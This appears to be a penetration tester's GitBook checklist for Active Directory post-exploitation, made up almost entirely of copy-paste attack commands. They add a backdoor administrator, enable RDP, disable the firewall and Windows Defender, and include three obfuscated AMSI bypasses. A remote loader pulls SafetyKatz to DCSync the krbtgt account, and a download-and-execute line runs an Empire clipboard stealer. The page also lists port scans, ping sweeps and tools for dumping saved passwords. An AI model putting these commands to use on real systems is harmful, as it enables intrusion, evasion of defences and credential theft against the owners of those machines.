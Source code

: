 ```yaml
---
description: Active Directory Post Exploitation Checklists
---
```


# Post Exploitation

## RDP Stuff

### Add Local Administrator

Create user **asuka** and add to RDP, Admin, and WinRM.

{% code overflow="wrap" %}
```powershell
net user asuka 'TrYh@rdeR!' /add
net localgroup "Remote Desktop Users" asuka /add
net localgroup "Administrators" asuka /add
net localgroup "Remote Management Users" asuka /add
```
{% endcode %}

### Enable RDP Access

{% code overflow="wrap" %}
```powershell
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server' -
name "fDenyTSConnections" -value 0
Enable-NetFirewallRule -DisplayGroup "Remote Desktop"

# In case powershell is not enabled (like in old machine)
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
netsh advfirewall firewall set rule group="remote desktop" new enable=Yes
```
{% endcode %}

### Access RDP

{% code overflow="wrap" %}
```bash
xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:support.htb /u:asuka /p:'TrYh@rdeR!' +nego /drive:Tools,/home/asuka/Tools/ActiveDirectory/
rdesktop support.htb
```
{% endcode %}

## Defender and Firewall Stuff

### Turn Off Firewall

{% code overflow="wrap" %}
```powershell
# powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
# cmd
netsh advfirewall set allprofiles state off
```
{% endcode %}

### Disable Defender Real Time Monitoring

{% code overflow="wrap" %}
```powershell
# Remove Defender Database
cmd /c "C:\Program Files\Windows Defender\MpCmdRun.exe" -RemoveDefinitions -All

Get-MpComputerStatus
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true
Set-MpPreference -ExclusionExtension "ps1"
Set-MPPreference -DisableBehaviorMonitoring $true

# Disable AMSI (set to 0 to enable)
Set-MpPreference -DisableScriptScanning 1 

# Check all exclusion folder
Get-MpPreference | Select-Object -Property ExclusionPath -ExpandProperty ExclusionPath
# Add folder exclusion (in case tamper protection is enabled)
Add-MpPreference -ExclusionPath C:\Mimikatz\

# Disable Real Time Protection
reg delete "HKLM\Software\Policies\Microsoft\Windows Defender" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiSpyware" /t REG_DWORD /d "1" /f
reg add "HKLM\Software\Policies\Microsoft\Windows Defender" /v "DisableAntiVirus" /t REG_DWORD /d "1" /f
```
{% endcode %}

### Bypassing PowerShell Security

Using InviShell - https://github.com/OmerYa/Invisi-Shell

{% code overflow="wrap" %}
```
C:\AD\Tools\InviShell\RunWithRegistryNonAdmin.bat
```
{% endcode %}

### AMSI Bypass

Detection: [https://github.com/RythmStick/AMSITrigger](https://github.com/RythmStick/AMSITrigger)

{% tabs %}
{% tab title="2023" %}
{% code overflow="wrap" %}
```powershell
$a='si';$b='Am';$Ref=[Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils'-f $b,$a)); $z=$Ref.GetField(('am{0}InitFailed'-f$a),'NonPublic,Static');$z.SetValue($null,$true)
```
{% endcode %}
{% endtab %}

{% tab title="CRTP" %}
{% code overflow="wrap" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
{% code overflow="wrap" %}
```powershell
[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
```
{% endcode %}
{% endtab %}
{% endtabs %}

### OPSEC with Loader

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Loader.exe -path http://172.16.100.67/SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```
{% endcode %}

### Get-ClipboardContents

Monitors the clipboard on a specified interval for changes to copied text.

{% code overflow="wrap" %}
```powershell
iex (iwr -usebasicparsing https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/collection/Get-ClipboardContents.ps1);Get-ClipboardContents
```
{% endcode %}

### WADComs

WADComs is an interactive cheat sheet, containing a curated list of offensive security tools and their respective commands, to be used against Windows/AD environments.

* [https://wadcoms.github.io/](https://wadcoms.github.io/)

### Dump Saved Password

* [BrowserStealer](https://github.com/SaulBerrenson/BrowserStealer)
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
* Mimikatz

### TCP Port Scanner

{% code overflow="wrap" %}
```powershell
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("172.16.8.1",$_)) "Port $_ is open!"} 2>$null # powershell
```
{% endcode %}

### Ping Sweep

{% code overflow="wrap" %}
```powershell
for /l %i in (1,1,254) do @ping -n 1 -w 100 172.16.8.%i > nul && echo 172.16.8.%i is up. # cmd
```
{% endcode %}

### Inveigh

Responder, but in Powershell/C#

* [https://github.com/Kevin-Robertson/Inveigh](https://github.com/Kevin-Robertson/Inveigh)

### MDE Enum

How to extract Windows Defender Exclusions and Attack Surface Reduction (ASR) rules without Admin privileges

* [https://github.com/0xsp-SRD/MDE\_Enum](https://github.com/0xsp-SRD/MDE\_Enum)

{% code overflow="wrap" %}
```bash
# local
mde-enum.exe /local /paths /access
# remote
mde-enum.exe <ip> <username> <password> <domain> /paths
# i.e
.\mde-enum.exe 172.16.8.148 asuka Asuka@1337 child.zerobyte.lab /paths
```
{% endcode %}

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEg-s8CjvYH04yAIm9dffLa8xRTnARSQR9gd8WKp6fZxTrQEMkCc-NAlewZB_1H5nAQzO4zxKf1FUQTfKLGKoTfTSIs6L3FmkbbMoXZggddyNVk5SlYwrqshBUKujEWox-CIOs25DspgkCVe9FQwcN8owuUqLZfh1JMlr0b3qawe1JMJMkyYbO_58cnPRX8/s872/mde-enum.png" alt=""><figcaption><p>MDE Enum</p></figcaption></figure>

Or, use this Powershell script.

```powershell
$logName = "Microsoft-Windows-Windows Defender/Operational"
$eventID = 5007
$events = Get-WinEvent -LogName $logName | Where-Object { $_.Id -eq $eventID }
$exclusionEvents = $events | Where-Object { $_.Message -match "Exclusions" }
$pattern = "HKLM\\SOFTWARE\\Microsoft\\Windows Defender\\Exclusions\\Paths\\[^\s]+"
$exclusionEvents | ForEach-Object {
    if ($_.Message -match $pattern) {
        $matches[0]
    }
}
```

<figure><img src="https://blogger.googleusercontent.com/img/b/R29vZ2xl/AVvXsEizy7s-PGsq5vpXfy6QMsH7TTl3qm5lWLyL8oNYRVVa3vIjHK4EAg3gKIszCqdCjjm-LRAGNGmfpWkBvpRAg8MwWaL2J-2XKo6HdmwJpynygsbkUXmyg0M3ikgGyt5Hq1gga3GQA04CDqoMqRW6NZuFWP-D2rTnHrIrZNuszuphAH56xwx2x1XJtpGkaBw/s742/mde-enum-powershell.png" alt=""><figcaption><p>Enumerate Defender Exclusions</p></figcaption></figure>

Reference:

* [https://x.com/VakninHai/status/1796628601535652289](https://x.com/VakninHai/status/1796628601535652289)

### Other Useful Stuff

* [https://github.com/r3motecontrol/Ghostpack-CompiledBinaries](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)
* [https://github.com/Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection)

